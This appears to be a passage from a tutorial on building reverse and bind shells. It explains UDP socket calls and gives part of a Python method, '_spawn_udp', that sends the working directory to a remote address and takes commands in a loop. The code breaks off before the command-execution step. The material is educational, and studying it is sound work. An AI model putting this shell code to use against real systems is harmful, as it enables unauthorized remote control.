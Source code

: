 ## **User Datagram Protocol (UDP)**

So far we've been focused on creating reverse shells and bind shells exclusively with Transmission Control Protocol (TCP); however, this is not the only protocol shell shoveling happens. UDP is a connectionless protocol with a focus on minimalism.

| Client (TCP) | socket() | **connect()** | N/A | N/A | recv() | send() |
| Client (UDP) | socket() | N/A | N/A | N/A | **recvfrom()** | **sendto()** |
| Server (TCP) | socket() | **bind()** | **listen()** | **accept()** | recv() | send() |
| Server (UDP) | socket() | **bind()** | N/A | N/A | **recvfrom()** | **sendto()** |

# UDP Shell Spawner

Because there is no remote address specified in a call to connect() or received in an accept() we find that we must rely on the following functions which specify the remote address within the receiving and sending functions.

Instead of using recv() as we would in the TCP/IP protocol we use [recvfrom(bufsize[, flags])](https://docs.python.org/3/library/socket.html#socket.socket.recvfrom).
> "Receive data from the socket. The return value is a pair (bytes, address) where bytes is a bytes object representing the data received and address is the address of the socket sending the data. See the Unix manual page recv(2) for the meaning of the optional argument flags; it defaults to zero. (The format of address depends on the address family — see above.)"

Instead of send() or sendall() we use [sendto(bytes, address)](https://docs.python.org/3/library/socket.html#socket.socket.sendto) to send data between connectionless UDP sockets.
> "Send data to the socket. The socket should not be connected to a remote socket, since the destination socket is specified by address. The optional flags argument has the same meaning as for recv() above. Return the number of bytes sent. (The format of address depends on the address family — see above.)"

```python
def _spawn_udp(self, sock, target=None, serve=False):
    """
    target is set to self.addr when a reverse shell is desired, 
    and is used to send data to a udp server. Otherwise, if this 
    method is not behaving like a client, target is not necessary.

    If serve is True, the ip & port captured by the recvfrom() method
    provides the address fot sendto(). This ip & port is the connecting
    clients address.
    """
    # infinitely accept commands
    while True:

        # Establish Communication
        if not serve:
            message   = bytes(f"{os.getcwd()}: ", 'ascii')
            bytesSent = sock.sendto(message, target)

        data, (ip, port) = sock.recvfrom(1024)
        data = str(data, 'ascii').rstrip()
        if not data: break
        
        # change directory if supplied
        try:
            if 'cd ' in data:
                _, path = data.split()
                os.chdir(path)
                continue
        except FileNotFoundError:
```